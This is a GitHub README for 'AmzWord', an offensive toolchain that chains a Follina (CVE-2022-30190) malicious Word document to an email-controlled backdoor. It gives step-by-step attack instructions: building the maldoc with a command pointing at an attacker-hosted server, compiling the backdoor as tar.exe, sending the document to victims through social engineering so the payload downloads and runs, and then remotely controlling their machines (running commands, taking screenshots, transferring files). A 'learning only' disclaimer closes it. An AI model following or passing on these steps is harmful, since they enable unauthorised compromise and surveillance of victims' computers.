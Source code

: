 # AmzWord

an automated attack chain based on CVE-2022-30190, 163 email backdoor, and image steganography

Thanks to the following github repository, we referenced and modified part of the code to integrate and implement our work:

- [gdog](https://github.com/maldevel/gdog)
- [follina](https://github.com/Noxtal/follina)
- [virtual-reality](https://github.com/rokups/virtual-reality)

中文README[请看这里](https://github.com/Jump-Wang-111/AmzWord/blob/master/README_zh.md)

# Requirements

gdog：

- Python 2.7
- PyCrypto module
- WMI module
- Enum34 module
- Netifaces module

follina：

- Python 3.x

# Usage & attack process

1. Use follina.py to build a malicious word file and turn on http listening

   - You can change the default name and default ip in the code
   - You can also use `--ip` and `--output` to specify
   - Please refer to [follina](https://github.com/Noxtal/follina) for detailed usage. We have not changed the usage interface.
   - eg: `python follina.py --ip 100.100.100.100 --output maldoc.doc`

2. Modify client.py and gdog.py under gdog and fill in the following information

   ```python
   gmail_user = 'your email'
   gmail_pwd = 'your pwd'
   server = "smtp server"
   imap_server = 'imap server'
   ```

3. Compile client.py into tar.exe and place it under /follina/www

4. Use any social engineering method to send it to the target. As long as the victim opens word, tar.exe will be automatically downloaded and executed.

5. The attacker runs gdog locally and sends commands to control the target machine. For usage, see [gdog](https://github.com/maldevel/gdog)

# Remark

1. This is just a demo of the attack chain implementation. The running exe can even be found in the task manager, which makes it easy to observe the effect. We did not perform any operations such as anti-virus, hiding, and privilege escalation. Of course, these are not difficult on Windows, right?
2. The gdog project has been around for a long time, and we have spent a lot of effort to make it run successfully. The remote control commands that are currently confirmed include: executing commands, taking screenshots, pop-up windows, shutting down, locking the screen, and transferring files. These functions Sufficient to suit most needs.
3. I don’t know why, but there seems to be some problem with imap’s SUBJECT search. We cannot search for emails with the target subject, and the return value is empty. We can only take other methods, such as reading all unread emails, filtering out the targets, and then setting others as unread. This may cause problems when there are many controlled users and needs to be solved.
4. This project is only for learning and exchange purposes.
